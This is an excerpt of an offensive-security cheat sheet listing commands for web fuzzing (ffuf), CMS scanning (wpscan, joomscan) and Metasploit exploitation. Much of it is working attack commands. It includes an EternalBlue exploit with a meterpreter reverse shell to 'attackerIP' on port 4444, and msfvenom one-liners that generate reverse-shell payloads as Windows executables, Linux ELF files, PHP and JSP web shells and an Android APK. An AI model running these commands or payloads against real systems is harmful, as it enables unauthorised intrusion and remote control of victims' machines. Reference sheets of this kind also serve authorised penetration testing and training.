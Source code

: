 **ffuf** – Fast web fuzzer  
```bash
ffuf -w wordlist.txt -u http://target/FUZZ
ffuf -w wordlist.txt -u http://FUZZ.target.com    # Subdomain fuzzing
ffuf -w wordlist.txt -X POST -d "param=FUZZ" -u http://target/
```

**wpscan** – WordPress vulnerability scanner  
```bash
wpscan --url http://target.com
wpscan --url http://target.com --enumerate u,p,t  # Users, plugins, themes
```

**joomscan** – Joomla vulnerability scanner  
```bash
joomscan -u http://target.com
```

---

## 🔹 System Hacking & Exploitation

### Metasploit Framework

**msfconsole** – Main Metasploit interface  
```bash
msfconsole
search type:exploit platform:windows
search cve:2021-34527
use exploit/windows/smb/ms17_010_eternalblue
show options
set RHOSTS target
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST attackerIP
set LPORT 4444
exploit
exploit -j                                 # Background job
```

**msfvenom** – Payload generator  
```bash
# Windows payloads
msfvenom -p windows/meterpreter/reverse_tcp LHOST=attackerIP LPORT=4444 -f exe -o shell.exe
msfvenom -p windows/shell/reverse_tcp LHOST=attackerIP LPORT=4444 -f exe -o shell.exe

# Linux payloads  
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=attackerIP LPORT=4444 -f elf -o shell.elf

# Web payloads
msfvenom -p php/meterpreter_reverse_tcp LHOST=attackerIP LPORT=4444 -f raw -o shell.php
msfvenom -p java/jsp_shell_reverse_tcp LHOST=attackerIP LPORT=4444 -f raw -o shell.jsp

# Android payload
msfvenom -p android/meterpreter/reverse_tcp LHOST=attackerIP LPORT=4444 -o payload.apk
```
